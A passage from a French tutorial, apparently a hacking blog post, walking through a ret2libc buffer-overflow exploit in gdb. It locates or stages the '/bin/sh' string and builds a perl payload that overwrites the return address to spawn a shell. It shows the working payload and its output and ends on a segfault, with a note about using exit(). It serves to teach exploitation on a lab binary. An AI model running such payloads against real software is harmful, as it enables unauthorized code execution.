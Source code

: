 
{% highlight sh %}
(gdb) x/s 0xb7fa92e8
0xb7fa92e8:     "/bin/sh"
{% endhighlight %}


Pratique non ?


Si jamais cette chaine (ou une autre que vous recherchez) n'est pas présente dans la mémoire du binaire (par exemple la chaine `"I Love Ricard"`, au hasard, mais on va continuer avec `"/bin/sh"`), il existe divers moyens de la stocker, nous allons par exemple la stocker dans une variable d'environnement


{% highlight sh %}
gdb$ set environment HACKNDO=/bin/sh
gdb$ x/s *((char **) environ+7)
0xbffff6ca:     "HACKNDO=/bin/sh"
gdb$ x/s 0xbffff6d2
0xbffff6d2:     "/bin/sh"
{% endhighlight %}


Une fois stockée, avec un tout petit peu de tâtonnement, nous trouvons son adresse en mémoire, que nous allons utiliser pour la suite.


Nous avons donc maintenant tous les éléments nécessaire pour pouvoir lancer notre attaque ret2libc, avec un payload comme suit :


{% highlight text %}
[ 20 x "A" ] [ 0xb7ea9e20 ] [ OSEF ] [ 0xbffff6d2 ]
{% endhighlight %}


Voici le résultat :


{% highlight sh %}
gdb$ r "$(perl -e 'print "A"x20 . "\x20\x9e\xea\xb7" . "OSEF" . "\xd2\xf6\xff\xbf"')"
AAAAAAAAAAAAAAAAAAAA ��OSEF����
$ 
{% endhighlight %}


On a obtenu notre shell ! Félicitations !


Pour rendre cette exploitation plus propre, au lieu de mettre une adresse de retour aléatoire, nous pourrions mettre l'adresse de la fonction `exit()`. Voici rapidement comment ça se passe


{% highlight sh %}
gdb$ r "$(perl -e 'print "A"x20 . "\x20\x9e\xea\xb7" . "OSEF" . "\xd2\xf6\xff\xbf"')"
AAAAAAAAAAAAAAAAAAAA ��OSEF����

$ exit

Program received signal SIGSEGV, Segmentation fault.
--------------------------------------------------------------------------[regs]
  EAX: 0x00000000  EBX: 0xB7FCEFF4  ECX: 0xBFFFF288  EDX: 0x00000000  o d I t S z A P c
  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x41414141  ESP: 0xBFFFF344  EIP: 0x4645534F
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002BError while running hook_stop:
Cannot access memory at address 0x4645534f
0x4645534f in ?? ()
{% endhighlight %}
